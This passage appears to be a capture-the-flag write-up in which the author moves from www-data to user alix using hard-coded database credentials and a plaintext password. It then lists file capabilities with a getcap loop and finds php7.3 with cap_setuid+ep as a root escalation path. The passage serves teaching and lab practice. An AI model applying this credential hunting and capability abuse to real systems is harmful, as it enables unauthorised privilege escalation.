 ```
Now let's go for a roaming in the endless possibility of files, I can't access to the homes, and to other important files too because I'm as www-data and so with low privileges.
Finaly finding an hint in the /var/www/html, saying that some credentials for database is burried around here, and after analyzing some files, I found it in the ```index.php```.

```
//Initialisation des informations de connexion
        $server = '127.0.0.1';
        $user = 'god';
        $password = 'MySup3rPr0t3ct3dP@$$w0rd!1337';
        $database = 'secret';
        $web_user = $_POST['username'];
        $web_pass = $_POST['password'];
```

Let's try thoses credentials in phpmyadmin webpage, and here we go I'm logged as god. In the secret/accounts table I find alix credentials and FLAG3:

```
| id | user  |  password            |  description                                      |
| ---| ------|----------------------|---------------------------------------------------|
| 1  | alix  |  M0TD3P@$$TR3SF0RT!  |  FLAG3{TRES-SECURISE-D-AFFICHER-LE-MDP-EN-CLAIR}  |
```

I use theses credentials to log in as alix in SSH with a stable shell.

## SSH shell

In the Alix home I just find the ```FLAG4{L-ESCALATION-DE-PRIVILEGES-SE-FAIT-PAR-LES-CAPABILITIES}``` saying that escalate can be done thanks to the capabilities.

<details>

<summary>What are Capabilities?</summary>

Linux capabilities break root privileges into smaller units. Instead of needing full root access, a binary can be given only the capability it needs.

Example:

A binary with ```cap_setuid+ep``` can change its user ID to root, even when launched by a normal user.

---

</details>

So let's ask a command to AI assistant for finding a bin with capabilities abuse possibility.

```
for f in $(find /usr /bin /sbin /lib* /opt -type f 2>/dev/null); do
>   /sbin/getcap "$f" 2>/dev/null
> done | grep -v '^$'
```

And here I find thoses results :

```
/usr/bin/php7.3 = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```

This is highly exploitable. The capability ```cap_setuid+ep``` on ```/usr/bin/php7.3``` means PHP can change its UID, even to root, without sudo.
```